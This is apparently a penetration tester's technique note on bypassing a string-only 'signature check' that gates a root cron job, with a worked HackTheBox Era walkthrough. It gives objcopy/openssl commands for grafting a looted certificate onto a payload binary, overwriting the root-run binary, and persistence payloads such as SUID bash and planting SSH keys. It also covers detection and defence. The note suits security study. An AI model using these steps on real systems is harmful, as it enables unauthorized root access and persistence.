

# Signature Verification Bypass

**Tags:** `#Privesc` `#Linux` `#CodeSigning` `#SignatureBypass` `#ELF` `#objcopy` `#CWE-347` `#SupplyChain` `#LessonLearned`

A home-grown "signature check" that gates a privileged action (usually **executing a binary as root**) but never *cryptographically verifies* the signature is trivially bypassable. If the check only asks "does the signature blob **contain** the expected issuer/subject string?" instead of "does this signature **cryptographically cover** these exact bytes?", it's a string comparison wearing a trench coat — and you defeat it by supplying any blob that contains the string, **no private key required**. This is **CWE-347: Improper Verification of Cryptographic Signature**.

> [!note] This is out of CPTS scope — it's a lesson-learned technique note. The mechanics below are Linux/ELF-flavoured (from HTB **Era**), but the *class* of bug applies anywhere a verifier trusts a signature it didn't actually check: firmware update routines, license/activation checks, JWT `alg:none`, package installers, custom "secure boot".

---

## What is this?

Real signature verification answers one question: **do these exact bytes, and this signature, and this public key, agree?** That requires a crypto operation — `openssl dgst -verify`, `openssl cms -verify`, `openssl x509 -verify`, `gpg --verify`, a `EVP_DigestVerify*` call, etc.

A **fake** check skips the crypto and substitutes a cheap proxy:

- greps the parsed signature/cert for an expected **DN string** (`O=Acme Inc.`, an email, a CN),
- checks a file **exists** or is **non-empty**,
- compares a hash the attacker also controls,
- decodes a token but never validates its signature.

The proxy *looks* like verification in logs and code review, but it binds nothing to the protected content. Anyone who can produce the expected string passes.

**Why it's a privesc primitive:** the classic setup is a **root-run binary in a writable location**, "protected" by a fake check. You already control the bytes that get executed; the only thing standing between you and root is a string the check is looking for — and that string is public (it's in a cert, a config, or the currently-deployed binary you can read).

---

## Tools

| Tool | Role |
|---|---|
| [[Tools/Scanning/pspy\|pspy]] | Find the root cron/service that runs the binary + the exact check commands (no root needed) |
| `objcopy` (binutils) | Read/add/replace ELF **sections** — dump the passing signature, or graft one onto your payload |
| `openssl asn1parse` | See what a DER cert/signature *decodes to* — i.e. exactly what the checker greps |
| `openssl x509` | Convert the looted PEM cert → DER blob for the section |
| `readelf -S` / `objdump -h` | List a binary's sections (confirm the `.text_sig`-style section name) |

---

## Spot the fake check

You usually can't read the verifier's source (it's root-owned, `0700`). **`pspy` is how you see the check without reading it** — it prints every command root runs, including the pipeline that "verifies" the binary. Read the pipeline:

```
objcopy --dump-section .text_sig=sig.bin  monitor     # pulls a blob OUT of the ELF
openssl asn1parse -inform DER -in sig.bin             # decodes it to text
grep -oP '(?<=UTF8STRING        :)Acme Inc.'          # <-- looks for a STRING
grep -oP '(?<=IA5STRING         :)admin@acme.com'     # <-- ...and another
<binary executed as root if both greps hit>
```

**The tell:** there is **no `-verify` anywhere.** No `dgst -verify`, no `cms -verify`, no `x509 -verify`, no `gpg --verify`. External crypto verification has to spawn a process, so it *would show up in the `pspy` trace* — and it doesn't. So the "signature" is never checked against the binary's `.text`; the gate is pure string presence.

> [!tip] **Decision rule.** Trace the check to its primitive. If the deciding step is `grep` / `test -f` / `[ -s ]` / a string `==`, it's **presence-only** → graft the string. If it's a real `*-verify` call that returns 0/1 on the content, it's **cryptographic** → you need the signing key (or a key-confusion/`alg:none` trick). Everything hinges on which one it is.

---

## Attack workflow



1. **Find the trigger + writable target.** `pspy` for a root cron/service that runs a binary; confirm you can write it:
   ```bash
   id; getent group <group>            # are you in the owning group?
   ls -la /path/to/binary /path/to/    # binary group-writable? dir group-writable?
   file /path/to/binary
   ```
2. **Read the gate** (above). Classify presence-only vs cryptographic.
3. **Presence-only — build a passing blob without a key.** Two routes:
   - **Steal the deployed blob:** the currently-installed binary already passes, so its section already contains the magic string.
     ```bash
     objcopy --dump-section .text_sig=good.bin /path/to/binary   # extract the passing blob
     gcc payload.c -o evil
     objcopy --add-section .text_sig=good.bin evil               # graft it onto yours
     ```
   - **Mint it from looted material:** if you've looted the cert/DN the checker greps for, convert it to the blob format the checker parses (here: DER cert as the section).
     ```bash
     awk '/BEGIN CERTIFICATE/,/END CERTIFICATE/' key.pem \
       | openssl x509 -outform DER -out sig.der
     objcopy --add-section .text_sig=sig.der evil
     ```
   - **Prove it locally first** — decode your blob exactly as the checker will and confirm the grepped strings are present, *before* deploying:
     ```bash
     openssl asn1parse -inform DER -in sig.der | grep -E 'Acme Inc.|admin@acme.com'
     ```
4. **Cryptographic — you need the key.** If the check genuinely `dgst -verify`s the `.text`, presence tricks get reverted without running. Sign properly with the looted private key and build a matching signature section. (No key → this door is closed; pivot.)
5. **Deploy and trigger.** Overwrite the binary just after a "restore" boundary so cron runs *your* copy before any pristine-restore job reverts it.

> [!tip] **Payload choice for a cron/root trigger:** it runs **non-interactively**, so a reverse shell is fragile (needs a live listener at the right second, dies on restore). Prefer a **one-shot, persistent** action: `chmod u+s /bin/bash`, `cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash`, or drop your SSH key into `/root/.ssh/authorized_keys`. See [[Class notes/HTB Academy/CPTS v2 (claude)/Linux Priv Esc#Cron Jobs|Linux Priv Esc → Cron Jobs]] for the SUID-shell gotchas.

---

## Worked example — HTB Era (root)

A root cron ran `/opt/AV/periodic-checks/monitor` every minute, but only after "verifying" it: `objcopy --dump-section .text_sig=…` → `openssl asn1parse` → `grep` for `O=Era Inc.` and `emailAddress=yurivich@era.com`. No `-verify` in the trace → **presence-only**. The exact subject strings came from a signing cert looted earlier over an IDOR (`download.php?id=150` → `key.pem` = RSA key **+** self-signed cert `CN=ELF verification`). The binary was `chown root:devs`, `chmod g+w`, and the foothold user `eric` was in `devs` — full write control over a root-executed file.

```bash
# Kali — turn the looted cert into the section blob (private key never needed)
awk '/BEGIN CERTIFICATE/,/END CERTIFICATE/' key.pem | openssl x509 -outform DER -out text_sig.der
openssl asn1parse -inform DER -in text_sig.der | grep -E 'Era Inc.|yurivich@era.com'   # proof it passes

# Target, as eric (group devs)
gcc shell.c -o evil                                     # payload runs as root from cron
objcopy --add-section .text_sig=text_sig.der evil
cp evil /opt/AV/periodic-checks/monitor
# wait <=60s for the per-minute cron → payload runs as UID 0
```

**Two details that made it work:**
- `string_mask=utf8only` in the cert-gen config forced the `O` field to encode as `UTF8STRING`, which is exactly the token the checker's `grep '(?<=UTF8STRING        :)Era Inc.'` matched. The config and the checker were authored as a matched pair — a tell that the whole scheme was string-based.
- **Timing:** a sibling cron restored a pristine `monitor` at `:00/:10/:20`. Building the section from the *looted cert* (rather than dumping the deployed binary's section) sidestepped the race entirely — no pristine copy needed. Enforcement was real, though: a plain `gcc` binary with **no** `.text_sig` section got logged as a scan but was **not executed**.

> [!note] **Same bug, web-app flavour — Cacti Package Import (CVE-2024-25641).** Cacti "packages" carry a signature, but the importer validates it against a public key **bundled inside the package itself** — so a self-signed package passes and its smuggled `.php` writes to the webroot → RCE. The check trusts material the attacker supplied, exactly like the `.text_sig` grep. See [[Class notes/HTB Academy/CPTS v2 (claude)/Attacking Common Applications#Cacti|Attacking Common Applications → Cacti]]. The identical pattern shows up in **JWT `alg:none`**, self-hosted **update/license checks**, and any "verify against the embedded cert" scheme.

---

## Detection & defence

- **Verify, don't grep.** A real check binds the signature to the content: `openssl dgst -sha256 -verify pub.pem -signature sig .text` (or CMS/`cms -verify`, or a detached-sig scheme), and **fails closed** on any mismatch. Grepping a DN, checking existence, or trusting a self-supplied hash is not verification.
- **Don't run attacker-writable binaries as root.** The signature theater is only reachable because the target is `g+w` in a `devs`-writable dir. Fix the permission and the primitive evaporates.
- **This is loud.** `objcopy`/`cp` over a system binary and an unexpected child of a root cron are exactly what host auditing catches. On **Era**, `auditd` + **Laurel** were installed (`_laurel` user, `/var/log/laurel/`) — Laurel normalises auditd events to JSON, so every `objcopy --add-section`, the `cp` over `monitor`, and the payload's `chmod u+s` were recorded with full argv. On a real engagement that's the detection boundary; note it before you fire.

---

## Quick Reference

| Step | Command |
|---|---|
| Find root-run binary + the check | `./pspy64` (watch for `objcopy`→`asn1parse`→`grep`, **no** `-verify`) |
| Am I in the owning group? | `id; getent group <grp>` |
| List a binary's sections | `readelf -S ./binary` · `objcopy --dump-section .text_sig=out.bin ./binary` |
| Steal a passing blob | `objcopy --dump-section .text_sig=good.bin ./deployed` |
| Cert → DER section blob | `openssl x509 -in cert.pem -outform DER -out sig.der` |
| Graft section onto payload | `objcopy --add-section .text_sig=sig.der ./evil` |
| Prove it passes the grep | `openssl asn1parse -inform DER -in sig.der \| grep '<expected DN>'` |
| Deploy | `cp ./evil /path/to/monitor` then wait for the trigger |

> [!note] **See also** — [[Class notes/HTB Academy/CPTS v2 (claude)/Linux Priv Esc#Cron Jobs|Linux Priv Esc → Cron Jobs]] (the writable-binary/cron primitive this abuses), [[Standards & Protocols/X509-PKI|X.509/PKI]] (what a real cert/signature actually binds), [[Standards & Protocols/JWT|JWT]] (`alg:none` is the same bug in a token), [[Tools/Scanning/pspy|pspy]].

---

*Created: 2026-08-25*
*Updated: 2026-08-25*
*Model: claude-opus-5*
